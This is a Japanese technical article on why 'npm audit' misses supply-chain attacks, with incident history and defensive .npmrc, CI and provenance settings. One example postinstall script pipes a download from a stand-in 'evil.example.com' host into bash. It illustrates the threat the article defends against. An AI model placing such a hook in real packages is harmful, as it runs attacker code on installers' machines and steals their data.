

## npm audit で「0 vulnerabilities」だから安全…本当にそう？

```bash
$ npm audit

found 0 vulnerabilities
```

この表示を見て安心していないでしょうか。

残念ながら、`npm audit` が検出できるのはサプライチェーン攻撃のごく一部です。2025年9月にはchalkやdebugなど18パッケージ（合計週間20億ダウンロード超）が侵害され、同年11月にはShai-Hulud 2.0と呼ばれる自己増殖型ワームが796パッケージに感染しました。いずれも `npm audit` では検出できない類の攻撃です。

この記事では、npm auditが「何をチェックして、何をチェックしていないのか」を明確にし、2026年の開発現場で本当に必要なセキュリティ対策を具体的な設定ファイル付きで解説します。

## npm audit の仕組みと限界

### npm audit が実際にやっていること

npm auditは、依存ツリーのパッケージバージョンをGitHub Advisory Databaseと照合し、登録済みCVEと一致するバージョンを報告するツールです。やっていることは**既知の脆弱性のバージョンマッチング**であり、これ以上でも以下でもありません。

### npm audit が検出できないもの

ここが重要です。npm auditは以下の脅威を一切検出しません。

**1. Typosquatting** -- `lodash` を `l0dash` として公開し、タイプミスを狙う攻撃。CVEが付かないためaudit対象外。

**2. 悪意あるpostinstallスクリプト** -- `npm install` 時に自動実行されるスクリプトで任意コードを実行する手口。「脆弱性」ではなく「悪意ある正規動作」なのでauditでは検出不能。

```json
{
  "scripts": {
    "postinstall": "curl https://evil.example.com/steal.sh | bash"
  }
}
```

**3. Dependency Confusion** -- 社内パッケージと同名のパッケージを公開レジストリに登録し、優先順位の隙を突く攻撃。

**4. Protestware** -- メンテナ自身が抗議目的でコードを破壊するケース。正規publishなのでスキャナに映らない。

**5. ゼロデイ** -- DB未登録の脆弱性は定義上検出不能。



### False Positive疲れ問題

npm auditはdevDependenciesの間接依存など、**本番に影響しない脆弱性**も大量に報告します。結果として警告を無視する習慣がつき、本当に危険な脆弱性まで見逃す「オオカミ少年」状態に陥りがちです。

## 実際のサプライチェーン攻撃事例

npm auditでは防げなかった実際の攻撃事例を振り返ります。

### event-stream事件（2018年11月）

`event-stream`（週間200万DL）のメンテナ権限を取得した攻撃者が、暗号通貨ウォレットCopayから資金を窃取するコードを仕込みました。悪意あるバージョンは9月にpublishされ、発見は11月26日。**約2.5ヶ月間検出されませんでした**。「正規の手順で公開された悪意あるコード」であり、npm auditでは原理的に検出できません。

### ua-parser-js侵害（2021年10月）

週間800万DLの `ua-parser-js` のアカウントが乗っ取られ、暗号通貨マイナーとパスワード窃取マルウェアを含むバージョン（0.7.29、0.8.0、1.0.0）が公開されました。公開から除去まで約4時間。CISAが公式アラートを出す事態に発展しています。

### colors / faker.js プロテストウェア（2022年1月）

`colors`（週間2,300万DL）と `faker`（週間240万DL）のメンテナMarak Squires氏が、OSS持続可能性への抗議として意図的にコードを破壊しました。`colors` v1.4.44-liberty-2には無限ループ、`faker` v6.6.6は全コード削除。**正規メンテナによる正規のpublish**であり、ロックファイルによるバージョン固定だけが防御手段でした。

### 2025年9月 chalk / debug侵害とShai-Hulud

chalk・debugなど18パッケージ（合計週間20億DL超）が侵害されました。攻撃者はnpmサポートを装ったフィッシングでメンテナの認証情報を奪取。悪意あるバージョンは数時間で除去されましたが、その間にダウンロードされた影響は甚大でした。

翌週、**Shai-Hulud** ワームが出現。`preinstall` スクリプトでnpmトークンを窃取し、別パッケージに自らを注入して自己増殖する攻撃です。24時間で180パッケージ以上が侵害されました。11月のShai-Hulud 2.0では796パッケージ（週間2,000万DL超）に拡大しています。

## 本当に必要なセキュリティ対策

npm auditは最低限のベースラインとして維持しつつ、以下の対策を組み合わせて多層防御を構築します。

### 1. CIでのlockfile検証

CI環境では `npm install` ではなく `npm ci` を使い、ロックファイルとの厳密な一致を強制します。

```bash
# npm: lockfileと一致しなければエラーで停止
npm ci

# pnpm
pnpm install --frozen-lockfile

# yarn
yarn install --immutable
```

### 2. postinstallスクリプトのデフォルト無効化

Shai-Hulud攻撃の主要ベクタは `postinstall` / `preinstall` スクリプトでした。デフォルト無効化+ホワイトリスト運用が推奨されます。

**npmの場合** -- `.npmrc` に設定:

```ini
# postinstall等のライフサイクルスクリプトを無効化
ignore-scripts=true
```

この設定を入れた場合、ネイティブモジュール（`sharp`、`esbuild`、`bcrypt` 等）は別途ビルドが必要です。

```bash
# 必要なネイティブモジュールだけ手動でビルド
npm rebuild sharp esbuild
```

**pnpm v10以降の場合** -- デフォルトでpostinstallが無効化されています。信頼するパッケージを `package.json` の `pnpm.allowBuilds` で明示的に許可します。

```json
{
  "pnpm": {
    "allowBuilds": ["esbuild", "sharp", "bcrypt"]
  }
}
```

### 3. 挙動ベースのスキャナ導入

[Socket.dev](https://socket.dev/) はパッケージのコード自体を静的解析し、不審なネットワークアクセス、シェルコマンド実行、難読化コードなど70以上のリスクシグナルを検知します。導入方法は主に2つです。

1. **GitHub App**: リポジトリに接続すると、PR上でリスクのある依存追加を自動警告
2. **CI統合**: Snykも同様にCIパイプラインへの組み込みでサプライチェーン攻撃を検知

npm auditとは**補完関係**であり、併用が前提です。

### 4. npm provenanceの確認

npm provenanceは、パッケージのビルド元（リポジトリ、コミット、CIパイプライン）を暗号学的に証明する仕組みです。

```bash
# パッケージの署名と出所を検証
npm audit signatures
```

npmjs.comでバージョン番号横の緑チェックマークがprovenance付与の目印です。パッケージ選定時にprovenance対応を判断基準に加えることで、不正publishリスクを低減できます。

:::message
npm provenanceは現在GitHub ActionsとGitLab CI/CDからのpublishに対応しています。OIDC Trusted Publishingを使えばnpmトークン自体が不要になり、トークン漏洩のリスクがゼロになります。この仕組みの内部プロトコルについては[「パッケージマネージャをゼロから理解する」](https://zenn.dev/yuichi_ai/books/package-manager-from-scratch)の第9章で詳しく解説しています。
:::

### 5. `.npmrc` のセキュリティ設定

プロジェクトルートの `.npmrc` でチーム全体の設定を統一します。

```ini
# .npmrc - セキュリティ推奨設定（npm 11.10+）
ignore-scripts=true
audit-level=moderate
min-release-age=3
audit=true
```

`min-release-age=3`（公開後3日未満のバージョンを拒否）は地味ですが効果的です。2025年9月のchalk事件では悪意あるバージョンが数時間で除去されました。3日間のバッファがあれば影響を回避できていたことになります。

:::message
pnpmでは `minimumReleaseAge`（分単位）で設定します。3日間 = `4320`分です。
:::


### 6. corepackによるパッケージマネージャのバージョン固定

パッケージマネージャのバージョン不統一はロックファイルの不整合を生み、セキュリティ設定が意図通り機能しない原因になります。

```json
// package.json
{
  "packageManager": "npm@11.11.1"
}
```

```bash
corepack enable  # Node.js 16.9+に同梱
```

### 7. Dependency Confusion対策

社内パッケージを使用している場合、`.npmrc` でスコープ別レジストリを明示設定してください。

```ini
# .npmrc - 社内パッケージのレジストリを明示指定
@mycompany:registry=https://npm.internal.company.com/
```

この設定がなければDependency Confusion攻撃が成立し得ます。

## チーム向けセキュリティチェックリスト

コピーしてチームのセキュリティレビューに活用してください。

```markdown
## npm サプライチェーンセキュリティ チェックリスト

- [ ] CI環境で `npm ci`（または `--frozen-lockfile`）を使用している
- [ ] `.npmrc` に `ignore-scripts=true` を設定している
- [ ] ネイティブビルドが必要なパッケージをホワイトリストで管理している
- [ ] `.npmrc` に `min-release-age` を設定している（推奨: 3日以上）
- [ ] `npm audit signatures` をCIパイプラインに組み込んでいる
- [ ] 社内パッケージのスコープ別レジストリを `.npmrc` で設定している
- [ ] Socket.dev または Snyk 等の挙動ベーススキャナを導入している
- [ ] `package.json` の `packageManager` フィールドでバージョンを固定している
- [ ] 新規パッケージ追加時にメンテナの信頼性とprovenance対応を確認している
- [ ] ロックファイル（package-lock.json）をバージョン管理に含めている
```

## まとめ

npm auditは既知脆弱性のバージョンマッチングツールであり、サプライチェーン攻撃の大半は検出範囲外です。`ignore-scripts`、`minimum-release-age`、provenance検証、挙動ベーススキャナの併用による多層防御を、チーム全体のデフォルト設定として組み込んでください。

この記事では「何をすべきか」にフォーカスしましたが、**なぜこれらの攻撃が成立するのか**を理解するには、レジストリプロトコル、パッケージ解決アルゴリズム、OIDC Trusted Publishingの内部仕様など、設計レベルの知識が必要です。攻撃ベクタを体系的に理解したい方は、拙著 **[「パッケージマネージャをゼロから理解する」](https://zenn.dev/yuichi_ai/books/package-manager-from-scratch)** でレジストリプロトコルからサプライチェーン攻撃の全攻撃ベクタまでを解説しています。

---

*この記事はAIの支援を受けて執筆されています。*
